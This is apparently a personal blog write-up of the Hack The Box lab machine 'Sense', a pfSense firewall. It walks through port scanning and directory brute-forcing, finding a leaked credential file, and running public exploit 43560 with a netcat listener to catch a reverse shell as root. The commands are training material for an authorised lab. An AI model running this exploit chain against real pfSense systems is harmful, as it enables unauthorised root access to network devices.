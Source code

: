 ```yaml
---
layout: single
title: Sense - Hack The Box
excerpt: This is the writeup for Sense, an absurdly easy machine with an authenticated RCE  
date: 2021-01-23
classes: wide
header:
  teaser: /assets/images/htb-writeup-beep/beep-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - dumb-machines
---
```


![](/assets/images/htb-writeup-sense/sense_logo.png)




<h2> Initial Foothold </h2>

We start the usual basics with an nmap scan

```bash
# Nmap 7.80 scan initiated Mon Jan 18 03:15:22 2021 as: nmap -sV -sC -Pn -oN nmap/init 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.10s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 18 03:17:19 2021 -- 1 IP address (1 host up) scanned in 116.57 seconds
```

we notice that 80 and 443 are open, however the 80 port only redirects any request to https

```bash
curl http://10.10.10.60/ --insecure --verbose
*   Trying 10.10.10.60:80...
* TCP_NODELAY set
* Connected to 10.10.10.60 (10.10.10.60) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.60
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 301 Moved Permanently
< Location: https://10.10.10.60/
< Content-Length: 0
< Date: Mon, 18 Jan 2021 10:29:49 GMT
< Server: lighttpd/1.4.35
< 
* Connection #0 to host 10.10.10.60 left intact
                                                      
```

When we visit HTTPs https://10.10.10.60, we get a pfsense login page. We can look for the deafult logins on google and they are `"username":"pfsense"`, however they don't work

for now i'll run gobuster with `directory-list-lowercase-2.3-medium.txt` in the background and look around for more clues

```bash

gobuster dir -w /home/tyr4n7/Documents/seclist/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -t 50  --url https://10.10.10.60/ -o enum/http_80 -k

```

I'll also check for common vulnerabilities using `searchexploit`:

```bash
searchsploit pfsense                                                                                                           130 ⨯
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                     | hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                           | hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                       | hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                   | hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)                           | unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                           | php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution           | php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                  | php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                                 | php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                                    | php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                                    | php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                      | php/webapps/41501.txt
Pfsense 2.3.4 / 2.4.4-p3 - Remote Code Injection                                                       | php/webapps/47413.py
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                        | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                           | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                                | multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                              | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                                      | freebsd/webapps/48300.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                         | php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                             | php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                        | php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                           | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                      | freebsd/webapps/24439.txt
------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
````

sadly we cannot get any clues about the version of pfsense using the common methods and thus we'll have to blindly run exploits and check if they work or not, however
most of them are not interesting except for the command injection 43560. It'd seem more plausible unlike other XSS exploits. Let's grab the exploit and run it 

```
searchsploit -m  php/webapps/43560.py
chmod +x 43560.py
./43560.py
/usr/bin/env: ‘python3\r’: No such file or directory
```
There are some carriage and trailing characters affecting it. we can delete the `\r` character by doing `tr -d '\r' < 43569.py > exploit.py`
running the exploit again, we clearly see that it requires authentication of an admin (username+password). Let's get back at our gobuster and see if it yielded anything, yet

```bash
gobuster dir -w /home/tyr4n7/Documents/seclist/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -t 50  --url https://10.10.10.60/ -o enum/http_80 -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60/
[+] Threads:        50
[+] Wordlist:       /home/tyr4n7/Documents/seclist/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/18 04:34:49 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
[ERROR] 2021/01/18 04:41:44 [!] Get https://10.10.10.60/60951: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/filebrowser (Status: 301)
/%7echeckout%7e (Status: 403)
/system-users.txt (Status: 200)
===============================================================
2021/01/18 04:46:33 Finished
===============================================================
```
The system-users.txt looks interesting, let's check it out

```bash
curl https://10.10.10.60/system-users.txt
####Support ticket###

Please create the following user


username: Rohit
password: company defaults 
```
so it seems someone was gentle enough to leave us a password in the main directory. huh, that's honestly disappointing, could have been a little bit more interesting than that. Nonetheless we'll use it to run our exploit and get us a shell by running `nc -lnvp 2424` on shell-A and the exploit on shell-B

shell-B: 

```bash
./exploit.py --rhost 10.10.10.60 --lhost 10.10.14.4 --lport 2424 --username rohit --password pfsense       
CSRF token obtained
Running exploit...
Exploit completed
```

Shell-A:

```bash
nc -lnvp 2424         
listening on [any] 2424 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.60] 34389
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
```

Which got us the root shell, so there's no need to privesc. This was honestly the lamest box i've ever came across, it's basically the "Lame" box but with extra steps ¯\_(ツ)_/¯ 

Hope this helped,

-Tyr4n7


